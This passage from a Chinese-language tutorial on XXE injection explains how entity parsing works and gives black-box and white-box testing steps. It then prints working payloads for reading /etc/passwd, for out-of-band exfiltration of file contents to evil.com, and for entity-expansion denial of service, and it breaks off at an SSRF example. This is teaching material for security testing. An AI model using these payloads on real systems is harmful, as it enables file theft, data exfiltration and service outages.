1. 示例中是一般实体引用 *（即`&[name];`）* ，它们会在`START_ELEMENT`阶段求值，如果是参数实体引用 *（即`%[name];`）* ，则会在DTD阶段进行求值
1. 示例中若使用FILE等其他协议，不一定是发起网络请求 *（源代码中定义的方法名称也表示的是获取输入流）*
1. 不同的编程语言和XML解析器，实现方式、执行流程和支持的协议都不一定相同，以上只是简单举例分析，不能一概而论

### 挖掘思路

通过分析XML解析过程和XXE注入漏洞原理我们可以知道：

1. 通用XML解析器一般来说都会参照XML文档规范实现对外部DTD和外部实体引用的解析，一部分解析器还会默认开启对它们的支持配置项
1. XML文档一般不被直接使用，在传入服务端后，要操作XML文档中的数据必定会经过XML解析器解析

而对XXE注入的限制更多依赖于开发人员对XML基础知识的掌握程度、XML解析器安全配置和使用的熟悉程度、安全编码意识等。一旦解析过程对外部实体引用等没有安全限制，不可信XML文档的输入源就有可能被利用进行XXE注入攻击。

因此对于黑盒而言，我们可以在任何可控的XML文档格式数据上进行XXE注入攻击测试，它也不止出现在常见的POST数据体中，也有可能是Query String、上传的XML描述格式文件、将被重组为XML文档的数据等。常规测试流程如下：

1. 测试是否支持实体解析
1. 测试是否支持外部实体解析
1. 测试回显或盲注

而对于白盒而言，常规审计流程如下：

1. 审计是否导入并使用官方或第三方XML解析器
1. 审计是否对XML解析器进行安全配置
1. 审计被解析的XML文档数据是否可控

当然，也可以使用XXEBugFind等自动化分析工具进行检测。

### 利用方式

- 任意文件读取
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <foo>&xxe;</foo>
    ```
- 基于OOB的任意文件读取 *（盲注）*
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY % xxe SYSTEM "http://evil.com/xxeoobdetector"> %xxe;
    ]>
    <foo/>
    ```
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % def "<!ENTITY &#x25; send SYSTEM 'http://evil.com/?data=%file;'>">
    %def; %send;
    ```
- 拒绝服务
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [
        <!ENTITY dos "dos">
        <!ENTITY dos1 "&dos;&dos;&dos;&dos;&dos;">
        <!ENTITY dos2 "&dos1;&dos1;&dos1;&dos1;&dos1;">
        <!ENTITY xxe "&dos2;&dos2;&dos2;&dos2;&dos2;">
    ]>
    <foo>&xxe;</foo>
    ```
- SSRF
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [